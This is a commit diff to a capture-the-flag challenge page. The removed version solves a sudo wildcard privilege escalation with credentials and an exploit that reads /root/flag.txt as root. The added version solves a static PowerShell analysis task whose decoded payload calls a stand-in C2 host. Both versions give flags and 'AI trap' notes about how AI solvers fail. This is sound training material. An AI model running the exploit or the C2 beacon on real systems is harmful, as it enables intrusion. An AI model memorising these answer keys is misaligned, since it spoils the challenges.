

Before and after one commit to Dealer-09/Cynox-Challnges, a Markdown page: C22/C22.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/C22/C22.md
+++ b/C22/C22.md
@@ -1,40 +1,32 @@
-# Challenge 22
+# Challenge 26 (Admin Reference)
 
 ## Title
-Bucky's Terminal
+Zola's Algorithm
 
 ## Difficulty
 Hard | Points: 300
 
 ## Description
-A decommissioned HYDRA operative's workstation is accessible on the network. The account is low-privilege — or so it seems. S.H.I.E.L.D. never audited the sudo configuration after the Triskelion fell. One privilege, one wildcard, one oversight. Find it.
+A S.H.I.E.L.D. agent received a suspicious archive titled `operation_insight.zip` seemingly from a high-ranking official. We suspect Arnim Zola's digital ghost is using it to infiltrate our network. We have disabled the execution policies, but we need you to perform static analysis on the script inside. Do not run the file. Extract the embedded logic and find the secret token it uses to authenticate with the C2 server.
 
-## Service
-SSH: `ssh bucky@<host> -p <port>`
+## File
+`operation_insight.zip` (Downloadable)
 
 ## Hint
-*"I'm not gonna fight you. You're my friend."* — Sometimes the system trusts you more than it should. Check what you're allowed to run. Read it carefully. Every character matters.
+*"You have a clock. I have a digital mind."* — Zola wouldn't hardcode a decryption key; he'd hide it where only the archive itself knows to look. Check the container's metadata.
 
 ## Solution
-**Credentials:** `bucky` / `w1nt3r_s0ld13r`
+This is an advanced static malware analysis challenge.
+1. The provided file is a `.zip` archive containing an obfuscated PowerShell script (`insight.ps1`).
+2. The decryption key is NOT hardcoded in the script. It is hidden in the ZIP archive's comment metadata.
+3. Players must extract the ZIP comment (using `unzip -z operation_insight.zip`, `exiftool`, or 7-Zip properties).
+   The comment contains the key: `hYdR4_4lg0r1thm_57`
+4. The extracted `.ps1` script contains obfuscated PowerShell code with a rolling XOR algorithm that decrypts a large array of integers.
+5. Because CyberChef's standard XOR module struggles with rolling XOR combined with keys derived from external file properties, the player is forced to actually read the PowerShell logic and reimplement it in Python.
+6. A quick Python script using the extracted key against the integer array from the script reveals the final payload command:
+   `powershell -c "Invoke-WebRequest -Uri http://hydra-c2.network/drop?auth=cyn0x{p0w3rsh3ll_st4t1c_4n4lys1s}"`
 
-**AI trap:** AI tries `bucky/password`, `bucky/hydra`, `bucky/bucky` — never the lore-specific password.
-
-Once in:
-```bash
-sudo -l
-# → (root) NOPASSWD: /usr/bin/python3 /opt/shield/monitor.py *
-```
-
-The `*` wildcard lets you pass **any file** as the plugin argument. `monitor.py` does `exec(open(sys.argv[1]).read())` — it runs whatever file you give it as root.
-
-**AI trap 2:** AI tries `sudo python3 -c '...'` (denied — not the allowed command). Tries to edit `monitor.py` (not writable). Never reads the sudo rule carefully enough to spot the wildcard.
-
-**Exploit:**
-```bash
-echo "import os; os.system('cat /root/flag.txt')" > /tmp/pwn.py
-sudo /usr/bin/python3 /opt/shield/monitor.py /tmp/pwn.py
-```
+**AI trap:** AI will likely attempt to use generic "XOR brute-force" techniques on the string, or look for the key exclusively within the PS1 text itself. It will likely fail to realize the key is in the ZIP archive comment.
 
 ## Flag
-`cyn0x{sud0_w1ldc4rd_py_3x3c_priv3sc}`
+`cyn0x{p0w3rsh3ll_st4t1c_4n4lys1s}`
````
Also changed, not shown: C23/C23.md (+0 -1 lines), README.md (+4 -2 lines), C07/quantum_realm.png (added), Cynox S03 Score.png (added), 9 other files.
